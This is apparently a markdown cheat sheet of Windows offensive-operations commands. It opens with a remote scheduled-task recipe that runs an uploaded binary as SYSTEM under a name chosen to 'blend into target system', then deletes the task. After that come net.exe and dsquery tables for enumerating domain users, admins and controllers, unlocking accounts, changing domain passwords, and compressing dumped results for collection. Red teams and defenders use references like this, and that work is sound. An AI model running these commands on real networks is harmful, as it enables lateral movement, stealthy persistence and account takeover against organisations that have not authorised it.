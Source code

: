 ## REMOTE SCHTASKS EXECUTION

*Upload binary to remote machine, create scheduled task pointing at that binary, run task, and delete task. Can change "OfficeUpdater" to any task name that blends into target system.*

| Description | Command |
|-------------|---------|
| Add task | `schtasks /Create /F /RU system /SC ONLOGON /TN OfficeUpdater /TR <FILE_PATH> /s <IP_ADDRESS>` |
| Query task verbose | `schtasks /query /tn OfficeUpdater /fo list /v /s <IP_ADDRESS>` |
| Run task | `schtasks /run /tn OfficeUpdater /s <IP_ADDRESS>` |
| Delete task | `schtasks /delete /tn OfficeUpdater /f /s <IP_ADDRESS>` |

# Domain and User Enumeration

*This section details important and useful domain enumeration commands. These commands can display computers, users, groups, etc.*

## DOMAIN ENUMERATION WITH NET.EXE
*Net.exe will NOT list groups in groups. Refer to DSQuery section to enumerate groups in groups.*
| Description | Command |
|-------------|---------|
| List accounts with administrative access to the current machine | `net localgroup administrators` |
| List accounts and groups with administrative access to the domain controller | `net localgroup administrators /domain` |
| Display hosts currently visible on the network | `net view /domain` |
| Display all users in current domain | `net user /domain` |
| Display user information for domain user account (status, policy, groups, etc.) | `net user <USERNAME> /domain` |
| Display domain account policies | `net accounts /domain` |
| Display domain groups | `net group /domain` |
| Display users in a domain group | `net group "<GROUPNAME>" /domain` |
| Display domain controllers in the current domain | `net group "Domain Controllers" /domain` |
| Display all computer hostnames for current domain | `net group "Domain Computers" /domain` |
| Unlock domain user account | `net user <USERNAME> /ACTIVE:YES /domain` |
| Change domain user password | `net user <USERNAME> "<PASSWORD>" /domain` |

## DOMAIN ENUMERATION WITH DSQUERY
*All DSQuery commands must be run from a machine that has dsquery.exe on disk (commonly Windows Server) and most of the commands DO NOT require administrative privileges.*
| Description | Command |
|-------------|---------|
| Display administrative users | `dsquery * -filter "(&(objectclass=user)(admincount=1))" -attr samaccountname name` |
| Output dsquery results to disk | `dsquery * -filter "((objectclass=user))" -attr name samaccountname > <OUTPUT_PATH>` |
| Compress dsquery results | `makecab <INPUT_PATH> <OUTPUT_PATH>` |
| Extract dsquery results | `expand <INPUT_PATH> <OUTPUT_PATH>` |
| Display Active Directory OUs | `dsquery * -filter "(objectclass=organizationalUnit)" -attr name distinguishedName description -limit 0` |
| Display computers filtering on operating system | `dsquery * -filter "(operatingsystem=*10*)" -attr name operatingsystem dnshostname -limit 0` |